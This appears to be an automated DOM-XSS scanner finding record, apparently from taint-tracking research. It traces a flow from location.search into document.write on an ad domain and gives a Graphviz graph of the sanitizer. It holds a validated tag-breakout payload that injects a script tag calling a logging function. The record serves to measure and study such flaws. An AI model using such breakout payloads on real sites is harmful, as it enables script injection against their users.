 // Finding: f399a9c1-deaf-4ae3-92a1-fdcae1e605af
// Finding.url: https://o1.example285.com/sjsc/o1/ff2.html?;p=src%3D664077"></iframe></style></script></object></embed></textarea><script>taintfoxLog('934dae82dbe44db58cac6a7272e8ea7f')</script><!--/*;;n=203;c=1651792/485404/223057;s=7273;d=9;w=300;h=250
// Finding.parentloc: https://o1.example285.com/sjsc/o1/ff2.html?;p=src%3D664077"></iframe></style></script></object></embed></textarea><script>taintfoxLog('934dae82dbe44db58cac6a7272e8ea7f')</script><!--/*;;n=203;c=1651792/485404/223057;s=7273;d=9;w=300;h=250
// Finding.domain: o1.example285.com
// Finding.base_domain: example285.com
// Finding.source: location.search
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: zd_lc_load_targetting_criteria
// Sanitizer.location: https://o1.example285.com/sjsc/o1/ff2.html?;p=src%3D664077"></iframe></style></script></object></embed></textarea><script>taintfoxLog('934dae82dbe44db58cac6a7272e8ea7f')</script><!--/*;;n=203;c=1651792/485404/223057;s=7273;d=9;w=300;h=250 - zd_lc_load_targetting_criteria:1058:43
// Finding.begin: 104
// Finding.end: 242
// Finding.original_uuid: f2892f45-73a2-491e-b806-34b3156588d4
// Finding.TwentyFiveMillionFlowsId: -1966861403
// Finding.script: https://o1.example285.com//cgi/k/20395068/2304/0/0/204651792/204651792//0/203/7273//1000005/i.js
// Finding.line: 32
// Exploit.uuid: 934dae82-dbe4-4db5-8cac-6a7272e8ea7f
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: src%3D664077"></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: src%3D664077"></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 40
// Exploit.end_taint_url: 50
// Exploit.replace_begin_url: 40
// Exploit.replace_end_url: 50
// Exploit.replace_begin_param: 104
// Exploit.replace_end_param: 116
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 531666645
// DepGraph.sanitizer_hash: 2096183217

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="RegExp: /^\?/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="split"];
n6 [shape=box, label="Lit: ;"];
n7 [shape=box, label="Var: x"];
n8 [shape=ellipse, label="substr"];
n9 [shape=box, label="Var: x"];
n10 [shape=box, label="Lit: 2"];
n11 [shape=box, label="Lit: 138"];
n12 [shape=ellipse, label="preg_replace"];
n13 [shape=box, label="RegExp: /[&]/"];
n14 [shape=box, label="Lit: ;"];
n15 [shape=box, label="Var: x"];
n16 [shape=box, label="Var: x"];
n17 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n7 -> n1;
n5 -> n6;
n5 -> n7;
n9 -> n5;
n8 -> n9;
n8 -> n10;
n8 -> n11;
n15 -> n8;
n12 -> n13;
n12 -> n14;
n12 -> n15;
n16 -> n12;
n17 -> n16;
}